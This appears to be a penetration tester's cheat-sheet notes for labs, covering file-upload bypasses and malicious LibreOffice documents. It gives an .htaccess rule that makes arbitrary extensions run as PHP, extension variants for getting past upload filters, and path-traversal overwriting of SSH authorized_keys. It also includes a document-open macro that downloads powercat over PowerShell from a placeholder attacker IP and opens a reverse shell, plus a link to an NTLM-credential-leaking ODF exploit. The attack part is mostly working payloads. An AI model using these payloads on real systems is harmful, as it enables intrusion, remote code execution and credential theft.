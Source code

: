 #### HTACCESS BYPASS

```
#Upload a custom .htaccess file. (https://br4ind3ad.medium.com/port-swigger-file-upload-vulnerability-lab-4-4c2bf39eeaf)
#This means all files with the extension evil with execute as PHP.
AddType application/x-httpd-php .evil
```

### Extension 

```
#Modify the original extension
eg. phps, pHp, php7, phtml.
```


### Over Writing
![[Pasted image 20231205204847.png]]

The response shows the ../../ indicating we may be able to overwrite files.

Create a SSH key and authroized_keys file.

![[Pasted image 20231205205001.png]]

Select your file and edit the path to overwrite a folder.

![[Pasted image 20231205205011.png]]


## LibreOffice
### ODT
```
Reference: https://al1z4deh.medium.com/proving-grounds-craft-c92de878e004 OR https://dominicbreuker.com/post/htb_re/

#Steps In LibreOffice
1. Create new document.
2. Add macro: Tools -> Macros -> Organise Macros -> Basic
3. Assign Macro Open Document Event.
4. Edit new Macro.

REM  ***** BASIC *****

Sub Main
	Shell("cmd /c powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/powercat.ps1'); powercat -c <ip> -p <port> -e powershell"")
End Sub

4. Might pay to just do a curl first to test the code execution is working.

```


```
#Generates ODF file which can be used to leak NTLM credentials.
https://www.exploit-db.com/exploits/44564
```

### ODS
```
# Exploitation Guide for Hepet -> OSCP PGP.
```